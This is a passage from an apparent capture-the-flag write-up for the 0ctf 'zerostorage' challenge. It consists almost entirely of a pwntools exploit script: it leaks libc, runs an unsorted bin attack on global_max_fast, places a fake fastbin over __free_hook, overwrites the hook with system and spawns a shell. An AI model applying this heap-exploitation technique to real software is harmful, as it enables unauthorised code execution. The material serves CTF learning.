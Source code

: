 ```
free_hook = libc + libc_bin.symbols['__free_hook']

log.info("Leak: " + hex(leak))
log.info("Libc: " + hex(libc))
log.info("Global_max_fast: " + hex(global_max_fast))
log.info("System: " + hex(system))

# Edit 2 to overwrite unsorted bin ptr, attack global_max_fast
edit(2, 0x20, "aaaaaaaa" + p64(global_max_fast-0x10) + "C"*0xf)

# /bin/sh to free later, insert triggers unsorted bin attack
insert(0x20, "/bin/sh\x00" + "D"*0x17) # 0

# Large fastbin, size appropriate for attack
merge(1, 1)                  # 3

# Fake fastbin over free hook
payload = p64(free_hook - 0x59)
payload += "A" * (0x1f7 - len(payload))

edit(3, 0x1f8, payload)

insert(0x1f8, "Q"*0x1f7)

# Overwrite free hook
payload2 = "\x00" * 0x49
payload2 += p64(system)
payload2 += "\x00" * (0x1f7 - len(payload2))

insert(0x1f8, payload2)       # 4

delete(0)

target.interactive()
```

I would like to give credit to this writeup for helping me solve an issue with the merging free affecting the fastbin size: [https://stfwlg.github.io/archivers/2016_0ctf-_zerostorage_%ED%92%80%EC%9D%B4]
